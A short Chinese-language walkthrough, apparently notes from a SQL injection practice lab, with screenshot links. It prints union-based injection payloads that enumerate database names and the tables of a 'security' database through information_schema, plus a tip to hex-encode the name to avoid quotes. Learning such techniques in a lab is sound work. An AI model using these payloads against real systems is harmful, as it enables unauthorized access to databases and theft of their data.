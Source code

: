 查找数据库名称`union select 1,2,group_concat(schema_name) from information_schema.schemata -- +`

group_concat:同一个分组中的值连接起来，返回一个字符串结果。

![image-20211011223743514](./typora-user-images/image-20211011223743514.png)

查找数据库版本是5.5，数据库名称为security。

![image-20211011223922443](./typora-user-images/image-20211011223922443.png)

使用如下语句获知security数据下所有的数据表 
`1' and 1=2 union select 1, (select group_concat(table_name) from information_schema.tables WHERE table_schema='security'), 3 --+`

**单引号会引入一些问题，可以把'security'转化为16进制，得0x7365637572697479**

![image-20211012201914681](./typora-user-images/image-20211012201914681.png)

![image-20211012205440552](./typora-user-images/image-20211012205440552.png)
